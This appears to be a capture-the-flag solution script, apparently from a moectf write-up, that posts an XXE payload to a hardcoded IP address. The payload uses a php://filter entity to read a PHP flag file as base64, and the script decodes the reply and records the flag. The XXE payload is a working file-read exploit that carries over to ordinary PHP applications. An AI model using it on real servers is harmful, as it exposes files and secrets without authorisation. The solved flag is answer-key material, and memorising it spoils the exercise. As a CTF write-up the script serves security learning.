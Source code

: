 



```python
# https://www.cnblogs.com/backlion/p/9302528.html
import requests
import base64
if __name__ == '__main__':
    url = 'http://39.97.238.171:8001/'

    xml = """<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE ANY [
    <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/flags/flag2.php">
    ]>
    <value>&xxe;</value>""" 
    req = requests.request(method='POST',url = url, data = xml)

    print(req.text)

# php://filter/read=convert.base64-encode/resource=/flags/flag2.php

print(base64.b64decode(b'PD9waHAgJGZsYWcyID0gJzRuZF9waHBfZjFsdDNyfSc7ID8+'))


# <value>是必须的，其他的得 echo $xml->from;
# moectf{XXE_4nd_php_f1lt3r}
```



<br/>

<br/>



-----

*未完待续……*